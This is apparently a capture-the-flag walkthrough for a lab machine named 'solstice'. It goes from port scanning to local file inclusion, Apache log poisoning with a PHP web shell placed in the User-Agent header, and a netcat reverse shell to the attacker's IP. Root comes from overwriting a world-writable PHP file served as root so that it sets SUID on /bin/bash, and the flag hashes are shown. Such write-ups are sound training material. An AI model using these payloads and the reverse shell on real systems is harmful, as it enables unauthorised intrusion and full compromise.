




Nmap scan:

```bash
PORT      STATE SERVICE    REASON  VERSION
21/tcp    open  ftp        syn-ack pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.238.72:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh        syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5ba737fd556cf8ea03f510bc94320718 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDWAl1JMEsT6kbFmhkFFIZbd2aH3DuBpmLjo1MvWSSFsUlQ+rN9wQ8y469ng7vKZDx19ke+JZ9jUcuJAu4zQ6BHjHDcLTy44WJCESD4oACMCK6+tlMneuINf6KTMr3urfvkvlULi2ffNbMl6Ko9gS/Oqh8Cm9HyAXGTK5MVgmW39QFTXdn7ByQMnnXjKmJ+5nXbf9c9Al9JJCFQAe0irCq2w3ubylh83SwPWsunapn0pW8Czsm2nsFL6aRXCOoNeK7/GmcC8lqENMnUIVRauhpDR3radZ4Uv4ejzHL8H+IklpgVRqBiuzRiqHpGlotNYadcArbYZ4auDwibrtRwgTlD
|   256 abda6a6f973fb2703e6c2b4b0cb7f64c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM9EuXzK3hXcn3ml6Kj69Bo1DACMk1AZWWm9wgPGIyPBQyQLXLazAtoqEP1phT1BNmtyAvScCwsydQwUsRH/3vA=
|   256 ae29d4e346a1b15227838f8fb0c436d1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIATUyTSmh1Tep0cnIVXvQBD6IQTjI8TBEmQEba1Fzkv2
25/tcp    open  smtp       syn-ack Exim smtpd
| smtp-commands: solstice Hello nmap.scanme.org [192.168.45.5], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http       syn-ack Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
2121/tcp  open  ftp        syn-ack pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.238.72:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
3128/tcp  open  http-proxy syn-ack Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http       syn-ack PHP cli server 5.5 or later (PHP 7.3.14-1)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
54787/tcp open  http       syn-ack PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
62524/tcp open  ftp        syn-ack FreeFloat ftpd 1.00
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows
```

Check to see if anonymous logins are allowed on port 21. Nope:

```bash
$ ftp 192.168.238.72
Connected to 192.168.238.72.
220 pyftpdlib 1.5.6 ready.
Name (192.168.238.72:lemmy): anonymous
331 Username ok, send password.
Password:
530 Anonymous access not allowed.
ftp: Login failed
```

On port 3128, Squid is running. Check to see if there are any services running that I don't know about. There aren't:

```bash
$ python spose.py --proxy http://192.168.238.72:3128 --target 192.168.238.72
Using proxy address http://192.168.238.72:3128
```

Check out ftp on port 2121. Anonymous logins allowed, but there's nothing and I can't put anything there:

```bash
$ ftp 192.168.238.72 -p 2121
Connected to 192.168.238.72.
220 pyftpdlib 1.5.6 ready.
Name (192.168.238.72:lemmy): anonymous
331 Username ok, send password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering extended passive mode (|||38305|).
125 Data connection already open. Transfer starting.
drws------   2 www-data www-data     4096 Jun 18  2020 pub
226 Transfer complete.
ftp> cd pub
250 "/pub" is the current directory.
ftp> ls
229 Entering extended passive mode (|||35253|).
150 File status okay. About to open data connection.
226 Transfer complete.
```

Fuzzing the web root on port 80:

```bash
$ ffuf -u http://192.168.238.72/FUZZ -w /usr/share/wordlists/dirb/common.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.238.72/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 296, Words: 71, Lines: 15, Duration: 1245ms]
app                     [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 40ms]
.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 2246ms]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 2248ms]
backup                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 37ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 3251ms]
index.html              [Status: 200, Size: 296, Words: 71, Lines: 15, Duration: 47ms]
javascript              [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 43ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 39ms]
```

There's not much here and most of it I can't access.

Checking around on port 8593, I noticed there was an interesting parameter: `book`.

Fuzzing for LFI, I find it vulnerable:

```bash
$ ffuf -u http://192.168.238.72:8593/index.php?book=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fw 45

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.238.72:8593/index.php?book=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 45
________________________________________________

/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 48ms]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 51ms]
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 52ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 562, Words: 63, Lines: 20, Duration: 38ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 43ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 46ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 44ms]
../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 45ms]
../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 41ms]
../../../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../etc/passwd  [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 41ms]
../../../../../etc/passwd [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 42ms]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 2444, Words: 71, Lines: 49, Duration: 41ms]
../../../../../../../var/log/apache2/error.log [Status: 200, Size: 7331, Words: 805, Lines: 48, Duration: 6257ms]
../../../../../../../var/log/apache2/access.log [Status: 200, Size: 29068003, Words: 4055553, Lines: 225344, Duration: 178ms]
:: Progress: [922/922] :: Job [1/1] :: 439 req/sec :: Duration: [0:00:08] :: Errors: 24 ::
```

This also gives the location of the Apache logs, which are about to come in handy.

Let's get `/etc/passwd`:

```bash
$ curl -s http://192.168.238.72:8593/index.php?book=../../../../../etc/passwd | html2text

Main_Page Book_List
We are still setting up the library! Try later on!
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:
x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/
usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/
var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/
nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/
var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:
/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/
nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/
sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/
systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/
systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/
sbin/nologin avahi:x:106:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/
sbin/nologin saned:x:107:118::/var/lib/saned:/usr/sbin/nologin colord:x:108:
119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin hplip:
x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false systemd-coredump:x:999:
999:systemd Core Dumper:/:/usr/sbin/nologin sshd:x:110:65534::/run/sshd:/usr/
sbin/nologin mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false miguel:x:
1000:1000:,,,:/home/miguel:/bin/bash uuidd:x:112:121::/run/uuidd:/usr/sbin/
nologin smmta:x:113:122:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/
nologin smmsp:x:114:123:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/
nologin Debian-exim:x:115:124::/var/spool/exim4:/usr/sbin/nologin
```

This discloses a user in home directory: miguel

I tried brute forcing this user's password for ssh and ftp. No go.

Here is location of apche log:
```bash
http://192.168.238.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log
```

The next step is to proceed with Apache log poisoning. The service on port 80 is the one that I need to query with a malicious 'User Agent' header when I request to get `index.php`. This will then be reflected in the log file via the service on port 8593.

Note: I was fuzzing the web endpoints a lot, so the logs were full. I reverted the machine and it was a lot easier to work with.

I poisoned the User agent with this:
`User-Agent: lemmy: <?php system($_GET['c']); ?>`



This gets me code execution when I query `http://192.168.238.72:8593/index.php?book=../../../../../../../var/log/apache2/access.log&c=id`



I replaced this command with the following urlencoded (special characters included) reverse shell:

Original: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.5 443 >/tmp/f`
Urlencode: `rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.45.5%20443%20%3E%2Ftmp%2Ff`

I get a shell as www-data and collect `local.txt`:

```bash
www-data@solstice:~$ ls -la
total 16
drwxr-xr-x  3 root     root     4096 Aug 13  2020 .
drwxr-xr-x 12 root     root     4096 Jun 13  2020 ..
drwxr-xr-x  6 www-data www-data 4096 Jun 25  2020 html
-rw-r--r--  1 www-data www-data   33 Mar 10 13:38 local.txt
www-data@solstice:~$ cat local.txt
b2dd63631e93577f16b0c82f4f9e25e6
www-data@solstice:~$ whoami
www-data
www-data@solstice:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@solstice:~$ hostname
solstice
www-data@solstice:~$ hostname -I
192.168.238.72
```


Searching for method to privesc, I check for running process as root and find this:

```bash
www-data@solstice:/tmp$ ps aux | grep root
<SNIP>
root       487  0.0  0.0   2388   572 ?        Ss   13:02   0:00 /bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
```

Check out the file persmissions:

```bash
www-data@solstice:/tmp$ ls -l /var/tmp/sv/
total 4
-rwxrwxrwx 1 root root 36 Jun 19  2020 index.php
www-data@solstice:/var/tmp/sv$ ls -la
total 12
drwsrwxrwx 2 root root 4096 Jun 26  2020 .
drwxrwxrwt 9 root root 4096 Mar 10 14:09 ..
-rwxrwxrwx 1 root root   36 Jun 19  2020 index.php
```

Check its contents:

```bash
www-data@solstice:/var/tmp/sv$ cat index.php
<?php
echo "Under construction";
?>
```

What this command means is that a PHP web server is serving index.php on localhost's port 57. Whenever I fetch `index.php` here, it will execute the PHP code as root. I also have write permissions on this file. So I will replace the current PHP code with code to make bash SUID, then call the webpage, which should then pave the way to root:

```bash
www-data@solstice:/var/tmp/sv$ echo "<?php system('chmod u+s /bin/bash'); ?>" > index.php
www-data@solstice:/var/tmp/sv$ cat index.php
<?php system('chmod u+s /bin/bash'); ?>
www-data@solstice:/var/tmp/sv$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
www-data@solstice:/var/tmp/sv$ curl 127.0.0.1:57
www-data@solstice:/var/tmp/sv$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

Rooted:

```bash
www-data@solstice:/var/tmp/sv$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# cd /root
bash-5.0# hostname
solstice
bash-5.0# hostname -I
192.168.238.72
bash-5.0# cat proof.txt
71772f125055fe0b8a29cb26a8393493
```

